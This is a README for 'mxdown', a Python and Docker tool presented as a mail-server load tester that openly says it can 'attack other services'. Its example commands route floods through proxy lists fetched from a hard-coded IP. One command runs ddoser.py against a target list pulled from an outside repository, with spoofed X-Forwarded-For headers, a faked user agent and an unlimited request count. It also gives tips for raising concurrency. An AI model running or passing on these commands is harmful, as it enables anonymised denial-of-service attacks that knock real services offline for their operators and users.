 # mxdown
Check how much load your MX server can handle.

Actually, with two additional options `--just-connect` and `--port 25` can be used to test the load or attack other services.

##Example
```shell
./maildown.py --host yourdomain.com --sleep-delay 100 -vvv --restart-period 600 --log-to-stdout --proxy-url http://143.244.166.15/proxy.list --concurrency 1
```

```shell
docker run -it 7d05576ba889  --host yourdomain.com --sleep-delay 100 -vvv --restart-period 600 --log-to-stdout --proxy-url http://143.244.166.15/proxy.list --concurrency 1
```
To disable debug, please remove `-vvv`

## Docker run (easy way)
Docker was added to the project - please use it.

## Install
### Linux
```shell
sudo apt install python3
sudo apt install python3-pip
git clone git@github.com:dnikolayev/mxdown.git
cd mxdown/
pip install -r requirements.txt
```
### MacOs
Download and install python3.7-3.9 form here https://www.python.org/downloads/macos/ if you don't have it
or install by brew
```shell
brew install python@3.9
brew link python@3.9
```
### Common for any system
```shell
git clone git@github.com:dnikolayev/mxdown.git
cd mxdown/
pip install -r requirements.txt
```
## Run
```shell
Usage: maildown.py [OPTIONS]

  Run mxdown

Options:
  --host TEXT                  target host
  --port INTEGER               Port to connect, default: 25
  --sleep-delay INTEGER        Time to sleep after connection
  --proxy-url TEXT             url to proxy resourse
  --proxy-file TEXT            path to file with proxy list
  --concurrency INTEGER        concurrency level
  -v, --verbose                Show verbose log
  --log-to-stdout              log to console
  --restart-period INTEGER     period in seconds to restart application (reload proxies ans targets)
  --shuffle-proxy              Shuffle proxy list on application start
  --help                       Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
ip3:port3#sock4 login:password
ip4:port4#http login:password
ip5:port5#http login:password
ip6:port6#https login:password
...
ipN:portN#sock4
```
### Example cmd
```shell
python3 ./ddoser.py --concurrency 150 --timeout 60 --with-random-get-param --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36" --count 0 --log-to-stdout --target-urls-file https://raw.githubusercontent.com/maxindahouze/reactor/main/targets3.txt --proxy-url 'http://143.244.166.15/proxy.list' --restart-period 600 --random-xff-ip
```
## Notes
**mxdown** supports SOCKS4/5 and HTTP(s) proxies with or without authorization, also can start it directly without proxy

Use **--restart-period** parameter to periodically reloading targets and proxies list

If you see an error `too many open files` then you can decrease concurrency/targets count but first of all
try to increase the limits:
### Linux/MacOS:
```shell
ulimit -n 100000
```
### WSL:
```shell
mylimit=100000
sudo prlimit --nofile=$mylimit --pid $$; ulimit -n $mylimit
```
